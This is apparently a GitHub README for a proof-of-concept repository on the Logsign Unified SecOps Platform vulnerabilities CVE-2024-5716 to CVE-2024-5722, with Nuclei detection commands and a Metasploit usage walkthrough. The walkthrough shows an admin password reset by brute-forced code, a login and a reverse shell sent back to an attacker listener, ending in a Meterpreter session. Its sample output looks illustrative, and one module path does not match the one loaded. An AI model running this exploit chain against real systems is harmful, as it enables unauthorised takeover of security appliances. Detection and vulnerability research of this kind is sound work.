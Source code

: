 # Logsign Unified SecOps Platform: Detection CVE-2024-5716 to CVE-2024-5722 - Exploiting CVE-2024-5716 and CVE-2024-5717, Proof of Concept (PoC)

## Explanation:

This repository contains Nuclei template for detecting multiple vulnerabilities in Logsign Unified SecOps Platform. The template are designed to identify the following vulnerabilities:

- **ZDI-CAN-24164 > CVE-2024-5716**: Logsign Unified SecOps Platform Authentication Bypass Vulnerability
- **ZDI-CAN-24165 > CVE-2024-5717**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24166 > CVE-2024-5718**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24167 > CVE-2024-5719**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24168 > CVE-2024-5720**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24169 > CVE-2024-5721**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24170 > CVE-2024-5722**: Logsign Unified SecOps Platform HTTP API Hard-coded Cryptographic Key Remote Code Execution Vulnerability

The metasploit exploit phase will be updated...

## Usage

To use these template with Nuclei, follow the example steps below:

### Clone the repository:

```sh
git clone https://github.com/j4nk3/Logsign-RCE.git
cd Logsign-RCE
```
### Usage with Nuclei:

**Single Target:**
```sh
nuclei -u https://target.com -t logsign-unauth-bypass-rce.yaml -nh
```
**Multiple Target:**
```sh
nuclei -l urls.txt -t logsign-unauth-bypass-rce.yaml -nh
```
**Sample Recon and Detection Process:**

![image](https://github.com/user-attachments/assets/a0759656-9cf9-44cf-9113-87c483303bb4)

![image](https://github.com/user-attachments/assets/5ea535f3-f9a8-43f3-a65d-3c40783cd8c9)


### Usage with Metasploit
```
# Step 1: Copy the .rb file to the Metasploit modules directory
sudo cp logsign-unauth-rce.rb /usr/share/metasploit-framework/modules/auxiliary/exploit/

# Step 2: Start Metasploit
msfconsole

# Step 3: Load the module
msf6 > use auxiliary/exploit/logsign-unauth-rce

# Step 4: Set the required options
msf6 auxiliary(exploit/logsign-unauth-rce) > set TARGETURI /
msf6 auxiliary(exploit/logsign-unauth-rce) > set USERNAME admin
msf6 auxiliary(exploit/logsign-unauth-rce) > set LHOST 0.0.0.0
msf6 auxiliary(exploit/logsign-unauth-rce) > set LPORT 1337
msf6 auxiliary(exploit/logsign-unauth-rce) > set RHOSTS 192.168.1.10
msf6 auxiliary(exploit/logsign-unauth-rce) > set RPORT 443

# Step 5: Run the exploit
msf6 auxiliary(exploit/logsign-unauth-rce) > run

[*] Resetting admin password using CVE-2024-5716...
[*] Forget password request sent for user: admin
[*] Successfully brute-forced reset code: 123456, verification code: 7890
[*] Password successfully reset to: Hkdi2983jdlGfdLS
[*] Successfully logged in with the new password. Session cookie: PHPSESSID=abcd1234...
[*] Sending reverse shell payload...
[*] Exploit completed, waiting for session...

[*] Meterpreter session 1 opened (192.168.1.100:1337 -> 192.168.1.10:443) at 2024-08-12 12:34:56 +0000
msf6 auxiliary(exploit/cve_2024_5716_5717_pre_auth_rce) >

```

Many thanks to @mdisec (Mehmet Ince) for the security research and critical finding detections performed on this product.

## Contributing
Feel free to submit issues or pull requests if you find any bugs or have suggestions for improvements.

## License
This project is licensed under the MIT License.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)

